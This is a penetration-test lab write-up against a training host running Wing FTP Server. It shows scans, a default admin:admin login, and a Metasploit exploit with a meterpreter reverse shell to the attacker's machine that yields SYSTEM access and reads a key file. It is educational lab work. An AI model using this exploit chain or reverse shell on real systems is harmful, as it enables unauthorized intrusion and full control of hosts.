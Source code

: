 # Pentest 2 - Steven - 36 - 10.14.1.36

### Scanning  
First we will capture our report to 2/initial
                                         
```bash
nmap -Pn -sC -sV -oN 2/initial $STEVEN
Starting Nmap 7.92 ( https://nmap.org ) at 2023-07-27 18:07 EDT
Nmap scan report for 10.14.1.36
Host is up (0.17s latency).
Not shown: 998 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     Wing FTP Server
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst: 
|   STAT: 
| Status for user anonymous:
|     Connected for 0 minutes, 2 seconds
|     2 users online.
|     Uploaded 0 files, 0.000 KB, 0.000 KB/sec average
|     Downloaded 0 files, 0.000 KB, 0.000 KB/sec average
|_End of status.
80/tcp open  http    Wing FTP Server(Ferdi Bak)
| fingerprint-strings: 
|   FourOhFourRequest: 
|     HTTP/1.0 404 Not found
|     Server: Wing FTP Server(Ferdi Bak)
|     Cache-Control: private
|     Content-Type: application/octet-stream
|     Content-Length: 0
|     Connection: close
|   GetRequest, HTTPOptions, RTSPRequest: 
|     HTTP/1.0 200 HTTP OK
|     Server: Wing FTP Server(Ferdi Bak)
|     Cache-Control: private
|     Content-Type: text/html
|     Content-Length: 316
|     Connection: close
|     <noscript><center><H2>The web client requires that you have Javascript enabled on your browser.<br>If you're not sure how to do this, <a href='help_javascript.htm'>click here.</a></H2></center></noscript>
|_    <meta http-equiv='Content-Type' content='text/html; charset=utf-8'><script>top.location='login.html';</script>
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Wing FTP Server(Ferdi Bak)
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
```

So we see FTP and 80 (http) open  
Additionally, we can see it's using "Wing FTP Server"  
Lets search and see if there is anything in searchsploit.  
Additionally since it's open on port 80, lets see if there is anything on the page?  
![Image1](/VHL/Reports/2/2_1.png)

Let's also see if we can determine what OS is being used:
```bash
sudo nmap -A -p 21,80 -Pn $STEVEN 
OS details: Microsoft Windows Server 2008 or 2008 Beta 3, Microsoft Windows Server 2008 R2 or Windows 8.1, Microsoft Windows 7 Professional or Windows 8, Microsoft Windows Embedded Standard 7, Microsoft Windows 8.1 R1, Microsoft Windows Phone 7.5 or 8.0, Microsoft Windows Vista SP0 or SP1, Windows Server 2008 SP1, or Windows 7, Microsoft Windows Vista SP2, Windows 7 SP1, or Windows Server 2008
```
So at this point we are guessing this is a windows server.  
Let's see what searchsploit and exploit-db have?  

```searchsploit wing
Wing FTP Server - (Authenticated) Command Execution (Metasploit)                                              | windows/remote/34517.rb
Wing FTP Server - Authenticated CSRF (Delete Admin)                                                           | php/webapps/48200.txt
Wing FTP Server 3.2.4 - Cross-Site Request Forgery                                                            | multiple/webapps/10821.txt
Wing FTP Server 6.0.7 - Unquoted Service Path                                                                 | windows/local/47818.txt
Wing FTP Server 6.2.3 - Privilege Escalation                                                                  | windows/local/48160.py
Wing FTP Server 6.2.5 - Privilege Escalation                                                                  | multiple/webapps/48154.sh
Wing FTP Server 6.3.8 - Remote Code Execution (Authenticated)                                                 | lua/webapps/48676.txt
Wing FTP Server Admin 4.4.5 - Cross-Site Request Forgery (Add User)                                           | php/webapps/36992.txt
Wing FTP Server Admin 4.4.5 - Multiple Vulnerabilities                                                        | windows/webapps/36861.txt
```

Since we know anonymous ftp is allowed, maybe we can try that?  
![Image2](/VHL/Reports/2/2_2.png)

So we know that we can get into the server using anonymous login (with no password). 
Can we do anything with this?   
I can't tell what version it is using despite being in the page.   
As an anonymous user, I don't have permissions to upload.  
Let's see if the exploits yield any success?  

Metasploit shows 1 good option:  
```bash
search wing
   11  exploit/windows/ftp/wing_ftp_admin_exec         2014-06-19       excellent  Yes    Wing FTP Server Authenticated Command Execution
```

This required admin credentials - I realized I didn't have admin credentials, and would not be able to utilize this exploit currently.  
Reviewing the internet for "Wing FTP server" however, tells me port 5466 and 7466 are also commonly used ports.  
Lets scan to see if these yield anything?  

```bash
sudo nmap -sS -Pn -p 5466,7466 $STEVEN
Starting Nmap 7.92 ( https://nmap.org ) at 2023-07-27 18:43 EDT
Nmap scan report for 10.14.1.36
Host is up (0.16s latency).

PORT     STATE    SERVICE
5466/tcp open     unknown
7466/tcp filtered unknown

Nmap done: 1 IP address (1 host up) scanned in 2.75 seconds
```

Indeed!  Let's see what is there.

```bash
sudo nmap -sV -Pn -p 5466,7466 $STEVEN
Starting Nmap 7.92 ( https://nmap.org ) at 2023-07-27 18:44 EDT
Nmap scan report for 10.14.1.36
Host is up (0.31s latency).

PORT     STATE    SERVICE VERSION
5466/tcp open     unknown
7466/tcp filtered unknown
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port5466-TCP:V=7.92%I=7%D=7/27%Time=64C2F367%P=x86_64-pc-linux-gnu%r(Ge
SF:nericLines,1E7,"HTTP/1\.0\x20200\x20HTTP\x20OK\r\nServer:\x20Wing\x20FT
```

It looks like we are getting a page response from one of these, so can we pull a page?  
10.14.1.36:7466 yields nothing , but 10.14.1.36:5466 gives us the admin page!  
Lets try admin:admin?   
Wow, I didn't expect that to work…  
![Image3](/VHL/Reports/2/2_3.png)

So right now, we have both a metasploit that can take an admin user/password, as well as FTP webpage administrator access.  
Lets try metasploit first to see where this gets us?  
```bash
msfconsole
use windows/ftp/wing_ftp_admin_exec
Show options -> 
Module options (exploit/windows/ftp/wing_ftp_admin_exec):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   PASSWORD                   yes       Admin password
   Proxies                    no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                     yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT     5466             yes       The target port (TCP)
   SSL       false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                    no        Path to a custom SSL certificate (default is randomly generated)
   USERNAME                   yes       Admin username
   VHOST                      no        HTTP server virtual host


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     172.16.4.1       yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Wing FTP Server >= 3.0.0

msf6 exploit(windows/ftp/wing_ftp_admin_exec) > set password admin
password => admin
msf6 exploit(windows/ftp/wing_ftp_admin_exec) > set username admin
username => admin
msf6 exploit(windows/ftp/wing_ftp_admin_exec) > set RHOST 10.14.1.36
RHOST => 10.14.1.36

msf6 exploit(windows/ftp/wing_ftp_admin_exec) > exploit

[*] Started reverse TCP handler on 172.16.4.1:4444 
[*] Found Wing FTP Server 4.3.8
[+] Found Powershell at C:\Windows\System32\WindowsPowerShell\v1.0\
[*] Executing payload via PowerShell...
[*] Sending stage (175174 bytes) to 10.14.1.36
[*] Meterpreter session 1 opened (172.16.4.1:4444 -> 10.14.1.36:43156 ) at 2023-07-27 18:55:44 -0400

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > pwd
C:\Windows\system32
meterpreter > sysinfo
Computer        : STEVEN-PC
OS              : Windows 7 (6.1 Build 7601, Service Pack 1).
Architecture    : x86
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x86/windows
```

### Searching for the key

From here, attempted to search for key.txt:  
```bash
search -f *key.txt
No files matching your search were found.
```

Ok, nothing returned, lets check the paths from the provided / listed for the course?
```bash
ls "C:\Documents and Settings\Administrator\Desktop"
Listing: C:\Documents and Settings\Administrator\Desktop
========================================================

Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
100666/rw-rw-rw-  282   fil   2017-05-22 06:22:27 -0400  desktop.ini
100666/rw-rw-rw-  20    fil   2017-05-22 06:23:21 -0400  key.txt.txt

meterpreter > cat C:\Documents and Settings\Administrator\Desktop\key.txt.txt
t70m5jaco2zy9vhqlb6s
meterpreter > 
```

There we go!
